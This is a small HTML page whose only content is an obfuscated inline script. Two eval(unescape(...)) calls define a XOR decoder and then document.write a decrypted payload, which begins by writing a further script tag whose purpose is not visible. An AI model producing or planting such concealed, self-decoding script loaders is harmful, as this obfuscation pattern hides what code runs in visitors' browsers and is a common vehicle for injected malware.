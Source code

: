 <html>
<head>
</head>
<body>

<script type="text/javascript">
<!-- 
eval(unescape('%66%75%6e%63%74%69%6f%6e%20%74%37%63%62%37%66%35%32%38%33%38%28%73%29%20%7b%0a%09%76%61%72%20%72%20%3d%20%22%22%3b%0a%09%76%61%72%20%74%6d%70%20%3d%20%73%2e%73%70%6c%69%74%28%22%32%33%34%36%38%34%33%39%22%29%3b%0a%09%73%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%30%5d%29%3b%0a%09%6b%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%31%5d%20%2b%20%22%36%38%33%34%35%39%22%29%3b%0a%09%66%6f%72%28%20%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%73%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%7b%0a%09%09%72%20%2b%3d%20%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%28%70%61%72%73%65%49%6e%74%28%6b%2e%63%68%61%72%41%74%28%69%25%6b%2e%6c%65%6e%67%74%68%29%29%5e%73%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%29%2b%31%29%3b%0a%09%7d%0a%09%72%65%74%75%72%6e%20%72%3b%0a%7d%0a'));
eval(unescape('%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%74%37%63%62%37%66%35%32%38%33%38%28%27') + '%3e%76%60%75%6e%6f%71%19%63%63%69%63%7d%65%62%66%38%27%69%62%73%68%71%66%74%61%6a%77%23%39%0a%09%74%6e%65%60%6a%73%24%6e%6a%60%64%75%68%6c%6b%25%64%75%61%6c%39%25%0e%0d%61%73%71%69%31%2d%2a%35%3b%30%31%30%30%29%33%34%34%6c%66%29%65%64%7d%68%62%77%64%67%66%74%25%74%7c%7c%27%65%61%67%5a%64%3e%6c%63%6d%67%75%5b%61%66%38%3a%3c%3e%25%62%63%6d%5d%6c%66%35%35%34%35%3c%29%25%62%63%6d%5d%76%71%68%39%36%62%30%27%3a%0e%0f%33%2d%76%67%78%6d%6b%71%3923468439%35%34%32%34%36%30%32' + unescape('%27%29%29%3b'));
// -->
</script>
<noscript><i>Javascript required</i></noscript>

</html>

